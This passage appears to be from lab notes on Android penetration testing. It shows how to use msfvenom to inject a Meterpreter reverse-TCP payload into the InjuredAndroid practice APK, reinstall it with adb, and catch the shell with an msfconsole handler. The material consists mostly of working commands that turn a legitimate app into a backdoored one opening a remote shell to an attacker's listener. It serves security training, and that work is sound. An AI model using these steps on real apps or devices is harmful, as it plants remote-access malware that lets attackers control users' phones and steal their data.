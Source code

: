 - Inject a `Meterpreter` payload into the InjuredAndroid.apk

```bash
msfvenom -x InjuredAndroid.apk -p android/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -o InjuredAndroid_hacked.apk
```

![](6-android-bonusassets/2024-01-21_12-46-46_371.png)

```bash
adb uninstall b3nac.injuredandroid
adb install InjuredAndroid_hacked.apk 
```

```bash
msfconsole -q
use exploit/multi/handler
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
```

> 📌 The reverse shell may not work correctly because of Android and emulator versions or incompatibility.
>
> 🔗 [Manual - Embedding Meterpreter in Android APK - Black Hills Information Security](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)
